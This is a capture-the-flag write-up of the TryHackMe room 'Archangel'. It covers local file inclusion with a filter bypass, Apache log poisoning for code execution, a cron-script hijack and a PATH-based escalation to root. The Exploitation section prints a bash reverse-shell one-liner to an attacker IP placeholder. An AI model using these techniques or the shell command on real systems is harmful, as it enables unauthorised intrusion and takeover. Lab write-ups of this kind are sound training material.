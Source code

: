 ```yaml
---
layout: post
title: THM Archangel
---
```


This is a write up for the room [Archangel](https://tryhackme.com/room/archangel) from [tryhackme](https://tryhackme.com).

<!-- MarkdownTOC -->

- [Initial Enumeration](#initial-enumeration)
- [Exploitation](#exploitation)
- [Local Enumeration](#local-enumeration)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->

## Initial Enumeration

`Nmap` results

![nmap](../images/archangel/arc1.png)

We have `Ubuntu` as OS.

- Port 22 OpenSSH 7.6p1
- Port 80 Apache 2.4.29

The server on port 80 shows a web page where we can see this email direction

![email](../images/archangel/arc2.png)

Before adding the domain to `/etc/hosts` we check the result `/flags` obtained with `gobuster`.

![flags](../images/archangel/arc3.png)

That `flag.html` file just redirects us to a youtube music video.

Once we add the domain to our `hosts` file if we navigate to the site we have this page.

![web](../images/archangel/arc4.png)

Running `gobuster` from this domain we find the `/test.php` page. This is supposed to be vulnerable to local file inclusion. Playing with the examples [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion) we manage to download the `php` code of the application, `base64` encoded.

![b64](../images/archangel/arc5.png)

Decoding the `base64` string we see the code.

![php](../images/archangel/arc6.png)

## Exploitation

Here we find the second flag and we can see the filters the application has. As we can see we are forced to use the `view` parameter, the `/var/www/html/development_testing` has to be part of the crafted url and `../..` can't be included.

First we find a way to bypass the `../..` filter and test it reading `/etc/passwd`

![test1](../images/archangel/arc7.png)

![testr1](../images/archangel/arc8.png)

Now to turn the `lfi` vulnerability into remote code execution we are going to use log poisoning as explained [here](https://ironhackers.es/en/tutoriales/lfi-to-rce-envenenando-ssh-y-apache-logs/).

We verify we can access the apache logs

![apache](../images/archangel/arc9.png)

![apache](../images/archangel/arc10.png)

Next we are going to poison the logs including a `php` string into the `User-Agent` field of the request.

![poison](../images/archangel/arc11.png)

And we test we have code execution adding `&cmd=id` at the end of the query.

![rce](../images/archangel/arc12.png)

![id](../images/archangel/arc13.png)

Now we change the payload

````shell
bash -c 'bash -i >&/dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'
````

But url enconded

![shell](../images/archangel/arc14.png)

And we gain a shell

![shell](../images/archangel/arc15.png)

## Local Enumeration

The only user on the machine is `archangel`, we can read the user flag from his home directory. We have a `passwordbackup` file but is just a link to the same youtube video we saw before.

![passback](../images/archangel/arc16.png)

We have a `cronjob` executing every minute as the user `archangel`

![crontab](../images/archangel/arc17.png)

This executable is writable by everyone so we can modify it to gain a shell into the machine as the `archangel` user.

![shell2](../images/archangel/arc18.png)

![shell2](../images/archangel/arc19.png)

## Privilege Escalation

Now we can access the `secret` directory and grab the user2flag. We also have a backup executable file, owned by `root` and executable by everyone. If we try to execute it we have

![backup](../images/archangel/arc20.png)

We modify the `PATH` environment variable and create a `cp` executable to spawn a shell as `root`.

![root](../images/archangel/arc21.png)